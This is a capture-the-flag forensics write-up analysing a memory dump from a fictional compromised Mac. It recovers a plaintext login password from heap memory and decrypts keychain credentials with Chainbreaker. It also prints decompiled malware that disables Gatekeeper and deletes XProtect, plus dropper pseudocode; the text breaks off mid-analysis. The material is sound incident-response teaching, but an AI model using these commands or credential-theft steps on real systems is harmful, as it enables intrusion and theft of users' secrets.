# S4nct1m0ny - DFIR Challenge Writeup

**Difficulty:** `Insane` | **Author:** [gh0stkn1ght](https://twitter.com/mspr75)

```
░██████╗░░██╗██╗███╗░░██╗░█████╗░████████╗░░███╗░░███╗░░░███╗░█████╗░███╗░░██╗██╗░░░██╗
██╔════╝░██╔╝██║████╗░██║██╔══██╗╚══██╔══╝░████║░░████╗░████║██╔══██╗████╗░██║╚██╗░██╔╝
╚█████╗░██╔╝░██║██╔██╗██║██║░░╚═╝░░░██║░░░██╔██║░░██╔████╔██║██║░░██║██╔██╗██║░╚████╔╝░
░╚═══██╗███████║██║╚████║██║░░██╗░░░██║░░░╚═╝██║░░██║╚██╔╝██║██║░░██║██║╚████║░░╚██╔╝░░
██████╔╝╚════██║██║░╚███║╚█████╔╝░░░██║░░░███████╗██║░╚═╝░██║╚█████╔╝██║░╚███║░░░██║░░░
╚═════╝░░░░░░╚═╝╚═╝░░╚══╝░╚════╝░░░░╚═╝░░░╚══════╝╚═╝░░░░░╚═╝░╚════╝░╚═╝░░╚══╝░░░╚═╝░░░
```

## Background

Peter Parker, the Daily Bugle's star photographer and secretly Spider-Man, exposed Eddie Brock's fake Spider-Man photos, earning J. Jonah Jameson's praise. When Eddie begged for forgiveness, Peter snapped, "You want forgiveness? Get religion." Humiliated, Eddie - now bonded with Venom - plotted his revenge. Recently, Peter faced performance issues with his laptop and sent it in for service. Upon its return, he noticed something was off. His Spider-Sense tingled - someone had tampered with it. Help Peter analyse the compromised system.

## Handout

- [Primary Link](https://drive.google.com/file/d/1f8wWkLfwaMpSRcq-Gua8hdcmPQcabpOB/view?usp=sharing)
- [Mirror Link](https://mega.nz/file/5ClWnLAK#MBTjnlzVwAmK3hfNUp2FoB0rE7HHmeLiHdtPhbcnZPY)
- MD5: `c962ed1ae53f2003658caa07d47d33eb`
- Password: `TLaf.KdUxFz'So3z`


### Q1 - What is the OS version of the compromised system?

**Answer: macOS 10.11.6 El Capitan**





First thing - the `.raw` extension threw me  off , i thought of using  Autopsy and mac_apt failed to load it as a disk image because it isn't one and went bak to dear volatility

Running Volatility's `banners` plugin confirmed it:

```
.\volatility3-win-exes-2.28.0\vol.exe -f chall\chall.raw banners.Banners
```

Output:
```
Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64
```

Darwin is the Unix core underneath macOS. Darwin 15.x maps to macOS 10.11 El Capitan. Cross-referencing the kernel build string `xnu-3248.60.10~1` with the Apple Wiki as well !


---

### Q2 - What is the hostname of the compromised system?

**Answer: Mac-Admin.local**

Before i  could run any macOS Volatility plugins, i  hit a wall:

```
Unsatisfied requirement plugins.Ifconfig.kernel.layer_name
Unsatisfied requirement plugins.Ifconfig.kernel.symbol_table_name
```

This error means Volatility can't reconstruct the virtual memory layer - it needs a **symbol table (ISF file)** that matches the exact kernel version in the dump. Without it, it can't walk the page tables or resolve kernel structures. Every single `mac.*` plugin will fail with this error.

**Vol2 vs Vol3 - how they handle this differently:**

Volatility 2 ships with pre-built profiles (a zip of vtypes + a symbol offset file) for a fixed set of macOS versions. You drop the zip into `volatility/plugins/overlays/mac/` . But rhe probelem is that the  profile has to exist already; for El Capitan 15G31 specifically, it's available from the volatilityfoundation/profiles repo as `MacElCapitan_15G31x64.zip`. Vol2 also doesn't need to reconstruct virtual memory the same way - it uses the profile's hardcoded kernel struct offsets to walk physical memory directly.

Volatility 3 requires an **ISF (Intermediate Symbol Format)** JSON file generated from the actual kernel's DWARF debug symbols via `dwarf2json`. This is actually  more accurate and future-proof but means for any kernel not already in the vol3 symbol repo, you have to build the ISF yourself from Apple's Kernel Debug Kit. Dw i have written the steps below 

For this challenge, vol3 was used for initial identification (`banners`) and vol2 was used for all the heavy lifting (`mac_list_files`, `mac_dump_file`, `mac_netstat`, `mac_bash`, etc.) because the vol2 profile was easier to get working.

#### Why does this happen?...(tutorial for building symbol table with kernel info for vol )

Volatility 3 for macOS works in three steps:
1. Scan physical memory for the Darwin kernel banner string
2. Match that banner to an ISF (Intermediate Symbol Format) file that maps kernel symbols to memory offsets
3. Use those symbols to find the kernel's page table base (DTB) and reconstruct virtual memory

If step 2 fails - no matching ISF and the context needed is sadly lost and wont work at all ..

#### Building the symbol table from scratch

We needed the ISF for `Darwin Kernel Version 15.6.0 xnu-3248.60.10~1` (build 15G31). before this i did try a prebuilt one but it didnt work and you have to manually download and parse it .

**Step 1 - Download the KDK**

From [developer.apple.com/download/all](https://developer.apple.com/download/all/) (free Apple ID required), downloaded:
```
Kernel Debug Kit 10.11.6 Build 15G31.dmg
```

**Step 2 - Extract the DMG**

```
7z x "Kernel_Debug_Kit_10.11.6_Build_15G31.dmg" -o"extracted\kdk_dmg"
```

This gives us `KernelDebugKit.pkg` inside the HFS volume.

**Step 3 - Extract the PKG**

```
7z x "extracted\kdk_dmg\Kernel Debug Kit\KernelDebugKit.pkg" -o"extracted\kdk_pkg"
```

Inside is a `Payload` file - Apple's `pbzx` compressed CPIO archive.

**Step 4 - Unpack the pbzx Payload**

The `Payload` uses Apple's proprietary `pbzx` format. Use this  Python script to decompress it:

```python
import struct, sys, lzma, os

def parse_pbzx(pbzx_path, out_path):
    with open(pbzx_path, 'rb') as f:
        magic = f.read(4)
        if magic != b'pbzx':
            raise Exception("Not a pbzx file")
        flags = struct.unpack('>Q', f.read(8))[0]
        with open(out_path, 'wb') as out:
            while flags & (1 << 24):
                flags = struct.unpack('>Q', f.read(8))[0]
                f_length = struct.unpack('>Q', f.read(8))[0]
                chunk = f.read(f_length)
                if chunk[:6] == b'\xfd7zXZ\x00':
                    out.write(lzma.decompress(chunk))
                else:
                    out.write(chunk)
    print(f"Done: {out_path}")

if __name__ == '__main__':
    parse_pbzx(sys.argv[1], sys.argv[2])
```

```
python parse_pbzx.py extracted\kdk_pkg\KDK.pkg\Payload extracted\kdk_payload.cpio
```

Then extract the CPIO:
```
7z x extracted\kdk_payload.cpio -o"extracted\kdk_contents"
```

This gives us the kernel files we need:
```
extracted\kdk_contents\System\Library\Kernels\kernel
extracted\kdk_contents\System\Library\Kernels\kernel.dSYM\Contents\Resources\DWARF\kernel
```

**Step 5 - Generate the ISF with dwarf2json**

Downloaded `dwarf2json-windows-amd64.exe` from the Volatility Foundation GitHub releases. This tool reads the DWARF debug symbols from the kernel and outputs a JSON symbol table.

```
.\dwarf2json.exe mac --macho "extracted\kdk_contents\System\Library\Kernels\kernel.dSYM\Contents\Resources\DWARF\kernel" --macho-symbols "extracted\kdk_contents\System\Library\Kernels\kernel" > extracted\15G31.json
```

> ** if ure on Windows ** PowerShell's `>` outputs UTF-16 LE, not UTF-8. SO Volatility can't read it.

```python
import lzma, json

with open(r'extracted\15G31.json', 'rb') as f:
    raw = f.read()

text = raw.decode('utf-16')
data = json.loads(text)

# Inject the banner so Volatility can match this ISF to the memory image
data['metadata']['mac']['banner'] = 'Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64\n'

with lzma.open(r'volatility3-win-exes-2.28.0\symbols\mac\15G31.json.xz', 'wb') as f_out:
    f_out.write(json.dumps(data).encode('utf-8'))
```

**Step 6 - Put it in the right place**

Run  Volatility with `-vvv` if youre confused about the path or where to put the files in  

```
INFO volatility3.framework.automagic.mac: No Mac banners found
Volatility symbols path: ['...\volatility3-win-exes-2.28.0\symbols', ...]
```

The ISF needed to go in:
```
volatility3-win-exes-2.28.0\symbols\mac\15G31.json.xz
```

After that, `mac.ifconfig` worked and all mac plugins became available :)

#### Finding the hostname

With Volatility working, we can use `mac.bash` to read bash history from memory:

```
.\volatility3-win-exes-2.28.0\vol.exe -f chall\chall.raw mac.bash
```

That showed `osxpmem` was used to capture the memory, but not the hostname directly. Used `mac_psenv` to read process environment variables - every process inherits `HOSTNAME` from the shell:

```
.\vol2\volatility_2.6_win64_standalone\volatility_2.6_win64_standalone.exe --plugins=vol2\plugins -f chall\chall.raw --profile=MacElCapitan_15G31x64 mac_psenv 2>&1 | findstr "HOSTNAME"
```



`HOSTNAME=Mac-Admin.local` appears across multiple process environments. The `.local` suffix is macOS's Bonjour mDNS domain automatically appended to the computer name.

---

### Q3 - What is the application responsible for the initial infection of the system?

**Answer: ImageEnhancePro.app**

#### Step 1 - pstree and pslist came up empty

My First instinct was to look at running processes. `mac.pstree` and `mac.pslist` showed nothing (well this chall was not gonna be that easy ig ) obviously malicious - just standard macOS daemons and a few user apps (Safari, TextEdit, Preview, Flock). 



#### Step 2 - bash history, also a dead end :(

```
.\volatility3-win-exes-2.28.0\vol.exe -f chall\chall.raw mac.bash
```

Showed:
```
ls
csrutil status
xcode-select --install
xcode-select --install
cd Desktop
sudo osxpmem.app/osxpmem -o OSXPMem/Memcap/mem.aff4
```

Interesting context (checking SIP status is classic attacker recon) but no direct reference to the malicious app. 



#### Step 3 - checking open files, starting with Downloads

Since the app wasn't running, we checked what files were open on the system. Well start with the Downloads folder:

```
.\volatility3-win-exes-2.28.0\vol.exe -f chall\chall.raw mac.lsof | findstr -i "download"
```



That showed `/System/Users/admin/Downloads/ImageEnhancePro.app/Contents/MacOS/applet` 

#### Step 4 - strings dump to understand what it did

With the name confirmed, i  pulled every memory string related to it to get some context 

```
python -c "import re; data=open(r'chall\chall.raw','rb').read(); [print(m) for m in set(re.findall(b'ImageEnhancePro[^\x00]{0,50}',data))]"
```

Key findings from the output:

```
b'ImageEnhancePro.zip HTTP/1.1\r\n'
b'ImageEnhancePro.zip&Expires=1749243980&Signature=XsmOpvAQ-yy~gDUI'
b'ImageEnhancePro.zip","text":"","timestamp":"1749131547760"'
b'ImageEnhancePro.zip.download/ImageEnhancePro.zip'
b'ImageEnhancePro.app/Contents/Resources/Scripts/main.scpt'
b'ImageEnhancePro.app/Contents/MacOS/applet'
b"ImageEnhancePro.app' [574] (3,0)"
b"ImageEnhancePro.app' [574] for authorization created by '/Users/a"
b'ImageEnhancePro/Users/admin/Library/Keychains/login.keychain'
b'ImageEnhancePro, com.apple.scripteditor.id.imageenhancepro, true,'
b'ImageEnhancePro.zip","size":98438,"id":"667148/ab3908f17491315471'
```

Piecing it together:

- **Downloaded as a ZIP** via a signed temporary URL (`Expires=1749243980`) - typical S3 pre-signed link
- **Delivered through Flock** - the timestamp and JSON structure (`"text":"","timestamp":`) match Flock's message format exactly. Someone sent it as a file share in a chat.
- **It's an AppleScript applet** - `Contents/MacOS/applet`, `Scripts/main.scpt`, `applet.icns` - this is the standard structure of a malicious `.app` wrapper around an AppleScript
- **Ran as PID 574** - `ImageEnhancePro.app' [574]` ties it to the `applet` process we saw in pstree
- **Accessed the keychain** - `ImageEnhancePro/Users/admin/Library/Keychains/login.keychain` - it was going after saved credentials

Full infection chain: **Flock message `ImageEnhancePro.zip` download extracted and ran AppleScript (`main.scpt`) executes keychain access**

Makes sense with the story too  Eddie Brock knew Peter is a photographer and sent him a fake "image enhancement" tool lol

---

### Q4 - Which application was used to facilitate the download of the malicious application?

**Answer: Flock**

Already surfaced in Q3. When we ran the strings search against memory we found:

```
b'ImageEnhancePro.zip","text":"","timestamp":"1749131547760","timestampInMillis":1749131547760,"uid":"1749131547760-z3v-m'
```



This is Flock's internal message JSON format - `text`, `timestamp`, `timestampInMillis`, `uid` are all Flock message fields. The `ImageEnhancePro.zip` was shared as a file attachment in a Flock chat, which triggered the download. 

---

### Q5 - What are the username and email address associated with the Flock account that sent the malicious application?

**Answer: Hecoj34842 / hecoj34842@eduhed.com**


From Q3 and Q4 we already knew Eddie Brock sent `ImageEnhancePro.zip` via Flock. now what account did he use tho ?


Flock stores its messages and contact records in **IndexedDB**, which sits on top of **LevelDB**. LevelDB compresses its data blocks using Snappy compression - so a plain `strings` search on the memory dump won't find Flock user data as readable text.


Flock had its IndexedDB files open during capture (visible via `mac.lsof`). The LevelDB data gets cached in the process's address space, meaning the contact records are somewhere in memory obv

I searched for the `flockMessages` key, which Flock uses in its IndexedDB schema to store cached message objects. This gave  the full chat log in plaintext - including the `ImageEnhancePro.zip` file share and all member JIDs.

The key match was a **contact record** embedded in the Flock process memory:

```
"emailsA.".hecoj34842@eduhed.com
"imageUrl"/https://i.flockusercontent2.com/default-115.png
"jid".ezkzyseeykzbz6vy@go.to
"name".Eddie Brock
"ownerGuid".k47pkcc74p5lb5lk
```



Eddie Brock's Flock account: JID `ezkzyseeykzbz6vy@go.to`, email `hecoj34842@eduhed.com`.


---

### Q6 - What is the username and email of the user who advised Peter to take his laptop for repair, what is the name of the recommended repair service, and in which Flock channel was this advice given?

**Answer: Jefoyil452_jefoyil452@baxima.com_TechFix Solutions_Channel: Spiderman: Menace**

Still in the Flock message data. We already had the full chat log from Q5's `flockMessages` search. Scrolling through, Peter complained about his laptop in the group:

```
"from":"k47pkcc74p5lb5lk@go.to",
"text":"Hey, yeah, about that.. my laptop's been a nightmare lately. it keeps freezing,
and i can't even open my editing software half the time... Does anyone know a good tech
guy? I'm desperate here."
```

The reply came from JID `9dm99teajkdad949@go.to`:

```
"from":"9dm99teajkdad949@go.to",
"text":"Peter, I know a reliable IT service in Midtown...TechFix Solutions. They've helped
me with my Mac before, and they're pretty quick. I can send you their contact if you'd like.
You really need to get those photos to Jonah soon."
```

Peter confirmed: `"Thanks, Robbie, that sounds perfect. I'll reach out to TechFix Solutions right away."`

So Robbie is JID `9dm99teajkdad949@go.to`. Looking up that JID in the contact records found in memory:

```
"jid"."9dm99teajkdad949@go.to"
"name"."Robbie Robertson"
"chatName"."Robbie R"
"email"."jefoyil452@baxima.com"
```



Okie so it  explains the "Hello Peter! Jefoyil452 just joined Flock" notification we saw earlier - that was Robbie Robertson joining Peter's team, not Eddie Brock.

The conversation happened in the group `867b48b3f94649008358037031d96778@groups.go.to`, whose profile record in memory shows `"name":"Spiderman: Menace"` - the Daily Bugle staff channel.

---

### Q7 - What are the login credentials of the compromised system?

**Answer: admin:!_L0v3_U%3000**


This one took me a lot of time , prolly the most time while solving this challenge , the instinct on seeing "login credentials" in a forensics challenge is to find a password hash and crack it. Well unlike winslop which uses NLTM , macOS stores user password hashes as PBKDF2-SALTED-SHA512 - computationally expensive to brute-force.


So it began , i started searching for CVE's related for macos authentication for around 3 hours straight , but found nothing . Well what if it wasnt a CVE tho ? Since the kernel version is 2016 based i tried loooking for blogs for it . Finally i asked chatgpt to search everywhere for password authentication , DFIR , login issues for any PDF's detailing some forencis stuff and it gave me a lot of articles to go through ..
(not limited to US defence department ) uhm


**References I read:**
- [macOS Memory Forensics Thesis - LSU](https://repository.lsu.edu/gradschool_theses/5477/)
- [Memory Analysis of macOS Page Queues - ResearchGate](https://www.researchgate.net/publication/346011419_Memory_Analysis_of_macOS_Page_Queues)
- [Memory Analysis of macOS Page Queues - DFRWS](https://dfrws.org/wp-content/uploads/2020/10/2020_USA_paper-memory_analysis_of_macos_page_queues.pdf)
- [macOS Memory Forensics - ScienceDirect](https://www.sciencedirect.com/science/article/pii/S2666281720302535)
- [OSX Memory Acquisition and Analysis using osxpmem and Volatility](https://ponderthebits.com/2017/02/osx-mac-memory-acquisition-and-analysis-using-osxpmem-and-volatility/)
- [macOS Forensics: Structure, Persistence and Investigation - Medium](https://medium.com/@cyberengage.org/macos-forensics-structure-persistence-and-investigation-7fa228e837af)
- [Keychain Analysis with Mac OS X Memory Forensics](https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf)
- [Macintosh Computer Forensic Analysis - IFIP](https://dl.ifip.org/db/conf/ifip11-9/df2006/CraigerB06.pdf)
- [Mac OS X Leopard Memory Analysis - NPS](https://faculty.nps.edu/ncrowe/oldstudents/icdf2c17_leopard.htm)
- [Leveraging the Windows Pagefile for Memory Forensics - JDFSL](https://commons.erau.edu/jdfsl/vol13/iss1/7/)

TLDR ,you need to understand what happens when you log into macOS.

When you type your password at the login screen, `LoginWindow.app` - the process that owns the login UI - takes your input and passes it to Apple's **Directory Services** subsystem to verify it against the stored hash. To do this it builds an **authorization context**: a data structure containing the information needed for authentication, including:

- `longname` - the user's display name (e.g. `Admin`)
- `name` - the short username (e.g. `admin`)
- `password` - your password, in **plaintext**

This struct is constructed in `loginwindow`'s heap memory and passed to the OS authentication layer. When authentication succeeds, the OS gives loginwindow back a token saying "this user is verified."




BUT one of the paper's said an interesting thing about loginwindow , something unbelivable  **loginwindow never zeroes out that struct after auth completes.** It just keeps it sitting in the heap for the entire duration of the session. There's no `memset(password_buffer, 0, len)` call, no `SecureZeroMemory` lol , this sounded too crazy to be true bc this is a basic secure coding practice that's been understood since the 1980s - `passwd(1)` on Unix zeroed credentials after use decades ago.

 The researchers were using a hex editor called **iBored** to manually inspect memory captures and noticed: every single dump had the user's plaintext password sitting in memory, consistently located near the string `longname`. 


Since we have a full RAM capture taken mid-session, those credentials are in memory exactly as they were at login time hopefully , but this was the only related lead i could find . No way this works right ??

 

#### Extracting the password

So my approach was write a  script to dump the virtual memory near loginwindow and iterate longname through them for atleast with a 10 batch iteration loop until i hit the heap area If this worked that is .

```python
import re
data = open(r'chall\chall.raw', 'rb').read()
hits = list(re.finditer(b'longname', data))
print(f'Total: {len(hits)}')
for i, m in enumerate(hits):
    print(f'#{i+1} @ {m.start()}:', ''.join(chr(b) if 32<=b<127 else '.' for b in data[m.start():m.start()+400]))
```

Total hits: **10**. Hits 1–8 are code segment strings. Hit **#9** at offset `5809601040` is the live auth struct in the heap:

```
longname........Admin............password........!_L0v3_U%3000
```



- `longname` `Admin`
- `password` `!_L0v3_U%3000`


---

### Q8 - What is the email and password for Peter Parker's iCloud account?
*Reference: [macOS Keychain - DFIR Knowledge Base](https://forge-work.com/dfir/knowledge/artifacts/macos-keychain)*

this article above has explained it much better than i could , pls check out first and then read with the context .
**Answer: peter.parker@icloud.com:Spidey_iCloud_123**

#### Where iCloud credentials live on macOS

macOS stores all saved credentials - Wi-Fi passwords, website logins, app tokens, and Apple ID / iCloud passwords - in the **Keychain**. The keychain file we care about is the user's login keychain:

```
/Users/admin/Library/Keychains/login.keychain
```

The login keychain is automatically unlocked when the user logs in, using the same password as the account. It stays unlocked for the entire session - which is why iCloud credentials are accessible without re-entering anything once you're logged in.




The `.keychain` file itself is a `SecKeychainItem` database encrypted with a key derived from the user's login password. If you just copy the file off a disk image and try to open it on another machine,well the decryption key is tied to the specific account and system.

The obvious forensic question is: can we read the keychain on a non-macOS system? searching for tools to open keychain files without macOS came up empty. Most answers online (gemini ai TBH  ) said it's impossible without the originating system




The thought then was: could we dump the decrypted keychain data from memory, the same way we extracted the plaintext password from loginwindow? The `securityd` daemon holds unlocked keychain data in memory. 

I was gonna give up on this then i searched it again with DFIR and boom the AI that gaslit me gave me exactly what i needed 



**[Chainbreaker](https://github.com/n0fate/chainbreaker)** - a Python tool that parses and decrypts macOS keychain files given the unlock password.


Since we already have the system password from Q7 (`!_L0v3_U%3000`), and the login keychain is encrypted with that same password, we have everything we need.

#### Extracting the keychain from memory

We know the path , where the file is but vol3 does not have a mac file dump plugin , this means setting up vol2 parallely ,and  walk the kernel's **vnode** structures - the in-memory representation of open files - and reconstruct the file from its actual cached pages. (This is what Volatility 2's `mac_dump_file` plugin does)

**Step 1 - Get the right Volatility 2 profile**

Volatility 2 uses profiles (zip files containing kernel vtypes and symbols) instead of ISF files. The Volatility Foundation maintains a profiles repository. We already knew our exact build from Q1: **15G31**. The matching profile was:

```
https://github.com/volatilityfoundation/profiles/Mac/10.11/ElCapitan_10.11.6_15G31.zip
```

 place this in `vol2\plugins\overlays\mac\` and confirmed it loaded:

```
MacElCapitan_15G31x64 - A Profile for Mac ElCapitan_15G31 x64
```

**Step 2 - Find the keychain vnode address**

From earlier `mac.lsof` output (Volatility 3), we had the virtual address of the login.keychain vnode: `0xffffff802d714960`.

**Step 3 - Dump the file via vnode**

```
vol2\volatility_2.6_win64_standalone.exe --plugins=vol2\plugins -f chall\chall.raw \
  --profile=MacElCapitan_15G31x64 mac_dump_file \
  -q 0xffffff802d714960 -O extracted\kc_dump\login.keychain
```

```
Wrote 282428 bytes to extracted\kc_dump\login.keychain from vnode at address ffffff802d714960
```

282KB - a valid, properly reconstructed keychain file assembled from the kernel's page cache.

**Step 4 - Decrypt with Chainbreaker**

Since the login keychain is encrypted with the same password as the user account (which we recovered in Q7), we already have the key:

```
python -m chainbreaker --dump-all --password "!_L0v3_U%3000" extracted\kc_dump\login.keychain
```



```
[+] Generic Password Record
    [-] Print Name: b'iCloud - peter.parker@icloud.com'
    [-] Account:    b'peter.parker@icloud.com'
    [-] Service:    b'iCloud - peter.parker@icloud.com'
    [-] Password:   Spidey_iCloud_123
```

Peter Parker's iCloud account: **peter.parker@icloud.com : Spidey_iCloud_123**

---

### Q9 - What are the master key, database key, record key, and SSGP label for the keychain record containing Peter Parker's Gmail account credentials?

The macOS login keychain uses a layered encryption model with three distinct keys and a per-record label as from the articles linked below this qsn , read them if you're more interested but for the sake of the question we're only in need of the following theory 

```
 -----------------------------------------------------------------------
                  ==[ macOS Keychain Key Derivation Chain ]==
 -----------------------------------------------------------------------

   "!_L0v3_U%3000"        (login password, retained by loginwindow)
          |
          |   PBKDF2-SHA1( password, salt[8], iters=1000, dklen=24 )
          |   salt lives in the DBBlob header inside the keychain file
          |
          v
  .----------------------.
  |      MASTER KEY      |   24 bytes  /  3DES-EDE key size
  |  2c1f42204086006d    |   derived fresh on every unlock -- never stored
  |  6739c650bcb64bcd    |
  |  4e8942b4308f4377    |
  `----------+-----------'
             |
             |   3DES-CBC-decrypt( master_key, DBBlob.IV, DBBlob.ciphertext )
             |   DBBlob sits in the CSSM_DL_DB_RECORD_METADATA table
             |
             v
  .----------------------.
  |     DATABASE KEY     |   24 bytes  /  one key for the whole .keychain
  |  4fac89ac4d2c7c59    |   shared by every record -- compromise is lwkenuinly  RIP
  |  b7e55fc08aa92b43    |
  |  bdd3924c817a446b    |
  `----------+-----------'
             |
             |   double 3DES-CBC unwrap on each Symmetric Key Table entry:
             |     pass 1: decrypt( db_key, MAGIC_CMS_IV, ciphertext )
             |     pass 2: reverse first 32 bytes, then
             |             decrypt( db_key, keyblob.IV,   reversed )
             |   yields one 24-byte key *per password record*
             |
             v
  .----------------------.        .-----------------------------------.
  |      RECORD KEY      |        |        SSGP blob (in record)     |
  |  b508c427e0bbbfac    |        +--------+-----------------+-------+
  |  f7c41e4109177712    |        | Magic  | Label  (16 B)   |  IV   |
  |  388daa47e331e262    |        | 4 B    | ed0de6b1805158  | 8 B   |
  `----------+-----------'        |        | 208ad272a7ec57f727      |
             |                   +--------+-----------------+-------+
             |  <--- label indexes Symmetric Key Table to find THIS key
             |
             |   3DES-CBC-decrypt( record_key, SSGP.IV, SSGP.enc_password )
             |
             v
  .----------------------.
  |  PLAINTEXT PASSWORD  |
  |   WebSlinger2025!    |   Gmail - peter.parker@dailybugle.com
  `----------------------'

 -----------------------------------------------------------------------
```


#### How the keys work

**Master Key** - Derived from the user's login password using PBKDF2-SHA1 with 1000 iterations and a random 8-byte salt stored in the DBBlob header. It is 24 bytes long (for 3DES-EDE).

```python
master_key = pbkdf2_hmac('sha1', password.encode(), dbblob.Salt, 1000, dklen=24)
```

**Database Key (DB Key)** - The DBBlob in the keychain's metadata table contains a 3DES-CBC encrypted blob. Decrypting it with the master key yields the database key - a single 24-byte 3DES key that is shared across the entire keychain database.

```python
db_key = 3DES_CBC_decrypt(master_key, dbblob.IV, dbblob.CipherText)[:24]
```

**Record Key** - Each password record references a symmetric key entry (via its SSGP label). That symmetric key entry is itself doubly-wrapped with 3DES using the DB Key. Unwrapping it gives a 24-byte record-specific key, which is the actual key used to encrypt the password in that record.

**SSGP Label** - The "Secure Storage Group Password" blob embedded in every password record starts with: `Magic (4 bytes) | Label (16 bytes) | IV (8 bytes) | EncryptedPassword`. The label acts as an index into the symmetric key table - it identifies which record key to use. The label is stored in hex.


Chainbreaker doesn't expose these internals in its standard output, so we need to write a small script using Chainbreaker's library API directly:

```python
master_key = kc._generate_master_key(PASSWORD)          # PBKDF2 output
db_key     = kc.db_key                                   # unwrapped from DBBlob
# For the Gmail record:
ssgp_label  = hexlify(rec.SSGP.Label)
dbkey_index = rec.SSGP.Magic + rec.SSGP.Label
record_key  = kc.key_list[dbkey_index]
```

#### Results for `Gmail - peter.parker@dailybugle.com`

```
Master Key   : 2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377
Database Key : 4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b
Record Key   : b508c427e0bbbfacf7c41e4109177712388daa47e331e262
SSGP Label   : ed0de6b1805158208ad272a7ec57f727
```

Gmail password confirmed: **WebSlinger2025!**

**Answer:**
- Master Key: `2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377`
- Database Key: `4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b`
- Record Key: `b508c427e0bbbfacf7c41e4109177712388daa47e331e262`
- SSGP Label: `ed0de6b1805158208ad272a7ec57f727`

#### References

- [Keychain Analysis with Mac OS X Memory Forensics](https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf) - foundational paper by n0fate covering the DBBlob format, PBKDF2 key derivation, and the three-layer unwrapping scheme this question is based on
- [Recover/crack password from keychain in OS X 10.15 Catalina via known items](https://apple.stackexchange.com/questions/480184/recover-crack-password-from-keychain-in-os-x-10-15-catalina-via-known-items-in) - practical StackExchange thread on unlocking keychains with a known login password, confirming the password→master key→db key chain still holds on modern macOS
- [Apple Keychain - Forensic Focus forums](https://www.forensicfocus.com/forums/general/apple-keychain/) - practitioner discussion on keychain forensics approaches, covering both memory-based and file-based extraction strategies

---

### Q10 - What is the name of the binary executed by the malicious application, and what is its SHA-256 hash?

In Q3 we identified `ImageEnhancePro.app` as the infection vector.Now time to rev 

#### The app is an AppleScript applet

`mac_list_files` reveals the full bundle structure:

```
0xffffff802bb63d20  /Users/admin/Downloads/ImageEnhancePro.app/Contents/MacOS/applet
0xffffff802bb763c0  /Users/admin/Downloads/ImageEnhancePro.app/Contents/Resources/Scripts/main.scpt
0xffffff802bb712d0  /Users/admin/Downloads/ImageEnhancePro.app/Contents/Resources/preview
```

The executable registered with macOS is `applet` - the standard AppleScript runtime binary. But the actual payload is two levels deep: `main.scpt` is the compiled AppleScript, and it in turn executes `preview`, a binary bundled in `Contents/Resources/`.



#### Dumping and reading main.scpt

```
vol2 mac_dump_file -q 0xffffff802bb763c0 -O extracted\main.scpt
# Wrote 1494 bytes
```



Decompiling the `.scpt` with Script Editor reveals the full attack chain:



```applescript
-- 1. SM  Flash update dialog
-- 2. Privilege escalation via osascript password prompt
-- 3. Defense evasion:
--      sudo defaults write com.apple.GateKeeper enabled 0   (disable Gatekeeper)
--      sudo rm -f /System/Library/.../XProtect.plist         (kill XProtect)
-- 4. Payload execution:
--      set venomPath to (path to me) & "Contents/Resources/preview"
--      do shell script venomPath
```

The script stores the path to `preview` as `venomPath` and executes it via `do shell script` - the actual malware binary hidden inside the app bundle's Resources folder.

#### Dumping preview and hashing

```
vol2 mac_dump_file -q 0xffffff802bb712d0 -O extracted\preview
# Wrote 101388 bytes
```



```
certutil -hashfile extracted\preview SHA256
# 45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559
```



**Answer: `preview_45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559`**

---

### Q11 - What is the IP address and port number to which the attacker established a connection?

With `preview` dumped, we loaded it into IDA Pro for static analysis.

#### Large encrypted blob in .rodata

The first thing that stands out is a massive encrypted string sitting in the binary's read-only data section, been done too many challs to know that this is a runtime-decrypted payload but obsfucated ofc . Lets go through the main one by one 



#### Reverse engineering the end of main: `sub_1000059d0`

The final function called from `main` is `sub_1000059d0`. 

```c
int64_t sub_1000059d0()

    // Anti-analysis gate 1 - exits if check fails
    if (((sub_100005420() ^ 0xff) & 1) != 0)
        _exit(1)

    // Anti-analysis gate 2
    if ((sub_100005470() & 1) != 0)
        _exit(1)

    // Decrypt the large blob from .rodata
    rax_2, rcx, rdx = sub_100002930()
    _swift_unknownRetain(rcx)
    rax_3, rdx_2 = sub_1000030e0(rax_2, rdx, rcx)

    // Build decrypted payload object
    rax_4 = sub_1000042b0()
    sub_100005f30(rax_4)
    rax_5 = sub_100004b40(rax_4)

    if (rax_5 != 0)
        // XOR-decode the output file path (24 bytes)
        rax_13, rcx_3, rdx_4 = __TFSSCfT...__SS(
            "481c5d45183c04031f0618470b0d1e40473b0a1a54141e54", 0x30, 1, 0x30)
        rax_14, rcx_4, rdx_6 = sub_100002210(rax_13, rdx_4, rcx_3)  // TODOdecode

        // Convert decoded path to file URL
        rax_15 = __TFV10Foundation3URLCfT15fileURLWithPathSS_S0_(rax_14, rdx_6, rcx_4)

        // Write decrypted payload to that file path
        rax_10 = sub_100004320(rax_5, rax_3, rdx_2)
        __TFV10Foundation4Data5write...WritingOptions_T_(rax_15, var_10, rax_10)

        // XOR-decode the interpreter path (10 bytes)
        rax_20, rcx_5, rdx_11 = __TFSSCfT...__SS(
            "480a595b183c03035e03", 0x14, 1, 0x14)
        rax_21, rcx_6, rdx_13 = sub_100002210(rax_20, rdx_11, rcx_5)  // decode

        // Stage 1: launch interpreter with argument + file path
        obj_1 = NSTask()
        obj_1.setLaunchPath(decoded_interpreter)     // "480a595b183c03035e03" decoded
        obj_1.setArguments([decoded_arg, file_url])  // "4c10" decoded + file path
        obj_1.launch()
        obj_1.waitUntilExit()

        // Stage 2: launch the dropped file directly
        obj_3 = NSTask()
        obj_3.setLaunchPath(file_url)
        obj_3.launch()
```

#### Anti-analysis gate 1 - `sub_100005420`: ptrace anti-debug



